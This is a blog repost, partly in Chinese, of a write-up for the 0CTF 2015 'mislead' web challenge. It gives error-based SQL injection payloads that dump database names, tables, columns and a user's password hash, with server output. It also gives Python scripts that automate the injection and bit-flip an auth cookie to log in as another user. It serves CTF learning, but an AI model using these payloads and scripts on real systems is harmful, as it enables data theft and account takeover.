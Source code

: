 ```yaml
---
title: mis_lead
author: tank96a
layout: post
categories:
  - article
tags:
  - web
---
```


[原文链接](http://www.pwntester.com/blog/2015/03/30/0ctf-2015-mislead-web-300/)

 `Duplicate entry technique` 经典注入语句
 
Get the DB:
{% highlight php %}
username=pwner10&password='),(select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) );#&submit=Submit
{% endhighlight %}

Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'mislead1'` for key 'group_key'<br>maybe another username?  

Get the tables:
{% highlight php %}
username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(table_name as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  
 );#&submit=Submit
{% endhighlight %}
Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'users~1'` for key 'group_key'<br>maybe another username?  

Get the columns:
{% highlight php %}
username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(column_name as char),0x7e)) from information_schema.columns where table_name='users' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  );#&submit=Submit  
{% endhighlight %}
Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'id~1'` for key 'group_key'<br>maybe another username?

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'username~1'` for key 'group_key'<br>maybe another username?

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'password~1'` for key 'group_key'<br>maybe another username?  

Get the first user:
{% highlight php %}
 username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x7e,password) as char),0x7e)) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)   );#&submit=Submit
{% endhighlight %}
Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'0ops~13096de41fe9a97b700d4d9e21665484~1'` for key 'group_key'<br>maybe another username?  

We decide to flip bits in the cookie to see if which byte can change the login name, then found the 14th byte make it. the logging message changes and our names is modified. Cool! So we can try to bit-flip the cookie and get the username to be 0ops. For that, the easiest way is to register a name very similar (just one letter off) and bit-flip that byte until we get the right name.

在cookies中寻找关键字节的开始位置，用户名会随着这个字节的改变而改变，这个就是可以爆破的位置。
先爆破一个和目标用户名只差一个字母的用户的cookies值：

{% highlight python %}
import requests  
url = 'http://202.112.26.101//mislead/register.php'  
for i in xrange(4000):  
    data = {
        'username': 'pwntester',
        'password': "'),(select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x7e,password) as char),0x7e)) from users limit %d,1),floor(rand(0)*2))x from information_schema.tables group by x)a));#" % i,
        'submit': 'Submit',
    }
    res = requests.post(url, data=data)
    if "ops~" in res.text:
        print res.text
{% endhighlight %}

先找到cookies中的关键字节位置，然后在该位置爆破出目标cookies值。

{% highlight python %}
import requests  
from base64 import b64decode, b64encode  
#from hexdump import hexdump  
import sys  
import string

url = 'http://202.112.26.101//mislead/index.php'  
OopsCookie = 'YWVkMTM0MjNjYWZkY2IyMDgxODExNDcwM2E1ODY2NWZhYTAzMzY3ZjQ1ZjFjMjQxNmQxNjRjNGM1ZGM0ZDEwZA=='  
binCookie = b64decode(OopsCookie).decode("hex")  
bytelength = len(binCookie)

def is_printable(s):  
    for ch in s:
        if not ch in string.printable:
            return False
    return True

def flip_byte(msg, pos, byte=0x10):  
    msg = msg[:pos] + chr(ord(msg[pos]) ^ byte) + msg[pos+1:]
    return msg

for i in xrange(bytelength):  
    res = requests.get(url, cookies={'auth': b64encode(flip_byte(binCookie, i).encode("hex"))})
    print i, res.text
    if "Hello" in res.text and "Oops" not in res.text:
        for c in xrange(256):
            res = requests.get(url, cookies={'auth': b64encode(flip_byte(binCookie, i, c).encode("hex"))})
            if is_printable(res.text):
                print i, c, res.text
{% endhighlight %}

感想：不能简单从cookies的长度来判断加密类型，容易陷入思维定势；经典的注入语句要记住；requests这个linux下的python模块确实简单好用。




